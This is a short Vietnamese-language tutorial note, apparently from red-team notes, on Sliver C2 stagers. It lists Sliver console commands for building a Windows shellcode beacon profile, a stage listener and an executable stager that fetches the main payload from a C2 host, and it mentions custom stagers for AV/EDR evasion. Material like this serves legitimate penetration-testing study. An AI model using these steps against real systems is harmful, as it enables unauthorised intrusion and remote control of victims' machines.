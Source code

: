 # Sliver - Stager

## Stager là gì

- **Stager** là payload nhỏ gọn, dùng để tải và thực thi payload chính (stage payload) từ server C2
- **Giảm kích thước payload ban đầu**, tăng khả năng deliver đến người dùng
- **Linh hoạt tải qua nhiều giao thức khác nhau:** HTTP, HTTPS, DNS, SMB, TCP...

## Triển khai stager

### Tạo Profile


```bash
sliver > stage-listener --url http://<IP>:<PORT> --profile <profile-name>
```

#### Profile mTLS cho implant beacon 64-bit Windows

```bash
sliver > profiles new beacon --mtls <c2_server> --format shellcode --arch amd64 --os windows win64
```

### Tạo stager listener

```bash
sliver > stage-listener --url tcp://<c2_host>:<c2_port> --profile <profile_name>
```

### Tạo stager

Sliver cho phép ta tạo stager từ nhiều nguồn khác nhau

### Sliver Framework

```
generate stager --lhost <c2_host> --lport <c2_port> --profile <profile_name> --format exe
```

### Custom Stager

Và để tối ưu nhất cho từng môi trường cụ thể Sliver cũng cho phép viết custom stager để tối ưu AV/EDR evasion


## References

- **[Custom Powershell Stager](https://medium.com/@youcef.s.kelouaz/writing-a-sliver-c2-powershell-stager-with-shellcode-compression-and-aes-encryption-9725c0201ea8):** Blog produce một custom powershell stager